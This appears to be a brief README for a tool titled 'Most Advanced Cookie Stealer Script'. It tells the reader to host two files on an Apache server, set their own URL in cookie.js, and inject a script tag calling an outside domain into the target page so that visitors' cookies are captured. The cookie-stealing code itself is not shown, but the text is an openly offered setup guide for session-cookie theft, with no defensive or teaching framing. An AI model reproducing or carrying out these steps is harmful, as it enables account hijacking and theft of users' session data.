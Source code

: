 # Most Advanced Cookie Stealer Script

1. Host the two attached files in an apache server

2. Modify the url with your url in cookie.js

3.  Insert the following code where you want to grab cookie <script src="http://your-domain.com/script">



